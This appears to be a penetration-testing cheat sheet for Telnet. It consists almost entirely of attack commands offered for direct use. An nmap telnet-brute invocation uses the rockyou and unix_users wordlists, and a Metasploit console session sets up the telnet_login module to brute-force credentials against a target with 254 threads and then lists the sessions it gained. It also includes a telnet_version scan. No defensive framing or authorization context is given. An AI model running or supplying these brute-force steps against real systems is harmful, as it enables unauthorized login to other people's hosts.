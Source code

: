 # **Telnet**

## nmap -p 23 --script telnet-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/unix_users,passdb=/usr/share/wordlists/rockyou.txt,telnet-brute.timeout=20s

<target ip>  
  

## == metasploit ==  
1. telnet bruteforce  
  
use auxiliary/scanner/telnet/telnet_login  
msf auxiliary(telnet_login) > set BLANK_PASSWORDS false  
BLANK_PASSWORDS => false  
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt  
PASS_FILE => passwords.txt  
msf auxiliary(telnet_login) > set RHOSTS x.x.x.x  
RHOSTS => x.x.x.x  
msf auxiliary(telnet_login) > set THREADS 254  
THREADS => 254  
msf auxiliary(telnet_login) > set USER_FILE users.txt  
USER_FILE => users.txt  
msf auxiliary(telnet_login) > set VERBOSE false  
VERBOSE => false  
msf auxiliary(telnet_login) > run  
  
msf auxiliary(telnet_login) > sessions -l // to see the sessions that succeded  
  
2. telnet version  
use auxiliary/scanner/telnet/telnet_version  
msf auxiliary(telnet_version) > set RHOSTS x.x.x.x  
RHOSTS => x.x.x.x  
msf auxiliary(telnet_version) > set THREADS 254  
THREADS => 254  
msf auxiliary(telnet_version) > run